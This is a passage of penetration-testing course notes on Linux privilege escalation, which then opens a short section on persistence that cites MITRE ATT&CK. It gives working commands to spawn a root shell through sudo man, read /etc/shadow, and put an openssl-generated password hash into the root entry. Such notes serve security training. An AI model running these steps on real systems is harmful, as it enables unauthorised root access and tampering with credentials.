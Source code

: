 The man entry depicts that the man command can be run using sudo without providing any password. Run it and launch /bin/bash from it.

```bash
sudo man ls
!/bin/bash
```

After this, escalated to root user is successful.



if file /etc/shadow is world writable, we can read its contents.

```bash
ls -l /etc/shadow    #shows details of file with permission
cat /etc/shadow
```

If root password isn't set. We can adding a known password in shadow file, one can escalate to root. Use openssl to generate a password entry.&#x20;

```bash
openssl passwd -1 -salt abc password           #setting new psw
```

Copy the generate entry and add it to root record in /etc/shadow Command:

```bash
vim /etc/shadow       #copy psw and save it.
#to check if it works
su
#enter the passowrd
whoami
```

# Windows [Persistence](https://attack.mitre.org/tactics/TA0003/)​ <a href="#windows-persistence" id="windows-persistence"></a>

🗒️ [**Persistence**](https://attack.mitre.org/tactics/TA0003/) _consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access._ - MITRE ATT\&CK

> ❗ **Persistence techniques and methods usually require administrative access and must follow the rules of engagement agree with the customer.**

Persistence Techniques - MITRE ATT\&CK

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e1c96da6aca06c8dfa53800abbbb690af27ac2e6%2Fimage-20230429130516537.png?alt=media" alt=""><figcaption></figcaption></figure>

> 🔬 Check the [Windows Persistence Labs](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/5-post-exploit/win-persistence)​

### Linux Persistence <a href="#linux-persistence" id="linux-persistence"></a>

Linux Server **`SSH`** service is typically enabled and an attacker can take advantage of it.
